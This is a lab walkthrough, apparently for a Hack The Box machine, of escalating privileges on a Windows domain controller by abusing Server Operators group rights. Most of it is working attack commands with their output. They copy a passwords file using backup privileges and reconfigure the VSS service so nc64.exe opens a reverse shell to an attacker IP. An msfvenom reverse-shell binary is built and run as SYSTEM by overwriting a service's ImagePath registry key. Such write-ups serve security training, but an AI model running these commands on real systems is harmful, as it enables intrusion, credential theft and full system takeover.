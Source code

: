 Microsoft describes the **Server operators** group as someone who can create and delete network shared resources, start and stop services, back up and restore files, format the hard disk drive of the computer.
# [Method 1:](https://cube0x0.github.io/Pocing-Beyond-DA/) 
```console
*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 1:15:13 AM
Password expires             Never
Password changeable          5/27/2021 1:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/26/2021 1:39:29 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```
It is also possible to check the permissions of the current user and the groups to which this user belongs
```console
*Evil-WinRM* PS C:\Users\svc-printer\desktop> whoami /priv
*Evil-WinRM* PS C:\Users\svc-printer\desktop> whoami /groups
```
> A built-in group that exists only on domain controllers. By default, the group has no members. **Server Operators** can log on to a server interactively; create and delete network shares; start and stop services; back up and restore files; format the hard disk of the computer; and shut down the computer. 

## Reading Sensitive Files
```console
*Evil-WinRM* PS C:\Users\svc-printer\desktop> Import-Module .\SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Users\svc-printer\desktop> Import-Module .\SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\Users\svc-printer\desktop> Copy-FileSeBackupPrivilege C:\users\cube0x0\desktop\passwords.txt C:\windows\temp\pass -Overwrite
```
## Modifying Services
**Server Operators** has write permissions to a lot of services by default, we can enumerate which this way
```console
*Evil-WinRM* PS C:\Users\svc-printer\desktop> $services=(get-service).name | foreach {(Get-ServiceAcl $_)  | where {$_.access.IdentityReference -match 'Server Operators'}}
# Returns about 65 standard services that Server Operators have privileges over

# We can now search for which of these services is running with SYSTEM privileges
(gci HKLM:\SYSTEM\ControlSet001\Services |Get-ItemProperty | where {$_.ObjectName -match 'LocalSystem' -and $_.pschildname -in $services.name}).PSChildName
```
We choose one service from the output that is going to execute our command in the next step
```console
*Evil-WinRM* PS C:\programdata> sc.exe config VSS binpath="C:\programdata\nc64.exe -e cmd 10.10.14.6 443"
*Evil-WinRM* PS C:\programdata> sc.exe stop VSS
*Evil-WinRM* PS C:\programdata> sc.exe start VSS
```
# Method 2: Weak Registry Permission
By hijacking the **Registry** entries utilized by services, attackers can run their malicious payloads. An attacker can escalate privileges by exploiting Weak Registry permission if the current user has permission to alter Registry keys associated with the service. The resulting **WinPEAS.exe** will look like this for service misconfigurations:
```console
ÉÍÍÍÍÍÍÍÍÍÍ¹ Looking if you can modify any service registry
È Check if you can modify the registry of a service https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services-registry-permissions
    HKLM\system\currentcontrolset\services\UserManager (Authenticated Users [FullControl])
```
There can be the following cases where we can modify the registry of the service either due to misconfiguration as the result above (FullControl for all users) or the user we own belongs to the **Server Operators** group so we has permission to modify the configuration of the service.

Following an initial foothold, we can query for service registry keys permissions using the **accesschk.exe** Sysinternals tool.
```console
*Evil-WinRM* PS C:\programdata> .\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\UserManager
```
Identify the binary Path of the UserManager Service by using reg query command.
```console
*Evil-WinRM* PS C:\programdata> reg query HKLM\system\currentcontrolset\services\Spooler /s  /v imagepath
```
We can then check the ACL's over the service. Below we see the owner is **NT AUTHORITY\SYSTEM** and the **Server Operators** group has the ability to *SetValue* which allows us to reconfigure the binary path
```console
*Evil-WinRM* PS C:\Users\svc-printer\Documents> Get-Acl HKLM:\system\currentcontrolset\services\UserManager | Format-List


Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\system\currentcontrolset\services\UserManager
Owner  : NT AUTHORITY\SYSTEM
Group  : NT AUTHORITY\SYSTEM
Access : NT AUTHORITY\Authenticated Users Allow  ReadKey
         NT AUTHORITY\Authenticated Users Allow  -2147483648
         BUILTIN\Server Operators Allow  SetValue, CreateSubKey, Delete, ReadKey
         BUILTIN\Server Operators Allow  -1073676288
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Administrators Allow  268435456
         NT AUTHORITY\SYSTEM Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  268435456
         CREATOR OWNER Allow  268435456
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadKey
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  -2147483648
         S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681 Allow  ReadKey
         S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681 Allow  -2147483648
```
On local machine
```console
┌─[kimkhuongduy@drgon]─[~/Documents/hackthebox/window/Return]
└──╼ $msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.5 LPORT=7777 -f exe -o reverse.exe
```
Overwrite the **ImagePath** registry key to point to our reverse shell executable:
```console
*Evil-WinRM* PS C:\Users\svc-printer\Documents> REG add HKLM\system\currentcontrolset\services\UserManager /v ImagePath /t REG_EXPAND_SZ /d "C:\Users\svc-printer\Documents\reverse.exe" /f
```
Listen with **nc** on the local and proceed to restart the service:
```console
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop UserManager
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start UserManager
```

